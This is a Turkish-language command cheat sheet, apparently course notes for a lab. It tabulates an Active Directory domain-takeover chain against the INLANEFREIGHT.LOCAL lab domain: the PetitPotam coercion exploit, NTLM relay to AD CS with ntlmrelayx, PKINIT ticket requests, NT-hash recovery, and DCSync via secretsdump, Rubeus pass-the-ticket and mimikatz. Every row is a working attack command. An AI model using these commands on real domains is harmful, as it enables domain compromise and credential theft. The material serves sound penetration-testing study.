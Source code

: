 | Komut | Açıklama | Kullanıcı | Hedef | Notlar |
| --- | --- | --- | --- | --- |
| `git clone https://github.com/topotam/PetitPotam.git` | PetitPotam exploit kodunu indirmek | Linux Kullanıcı | - | Git kullanılarak yapılır. |
| `python3 PetitPotam.py 172.16.5.225 172.16.5.5` | PetitPotam exploit kodunu çalıştırmak | Linux Kullanıcı | Hedef (Domain Controller) | Hedef IP adresleri belirtilir. |
| `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | NTLM relay oluşturmak için Impacket aracı | Linux Kullanıcı | Hedef (CA Sunucu) | Sunucu sertifika kayıt URL'si belirtilir. |
| `python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$ -pfx-base64 <base64 certificate> = dc01.ccache` | TGT bileti almak için Impacket aracı | Linux Kullanıcı | Domain Controller | Base64 sertifika ve ccache dosyası oluşturulur. |
| `klist` | Ccache dosyasının içeriğini görüntüle | Linux Kullanıcı | - | Kerberos bilet bilgilerini gösterir. |
| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$` | NTLM hash değerleri almak | Linux Kullanıcı | Domain Controller | TGS istekleri gönderilir ve hash değerleri alınır. |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Kullanıcı | Domain Controller | DCSync saldırısı ve TGT bileti kullanılır. |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Kullanıcı | Domain Controller | DCSync saldırısı ve yakalanan hash değeri kullanılır. |
| `.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /<base64 certificate>=/ptt` | Pass-the-ticket saldırısı yapmak | Windows Kullanıcı | Domain Controller | Makine hesabı kullanılarak TGT bileti alınır. |
| `mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt` | DCSync saldırısı yapmak | Windows Kullanıcı | Domain Controller | Mimikatz kullanılarak DCSync saldırısı yapılır. |
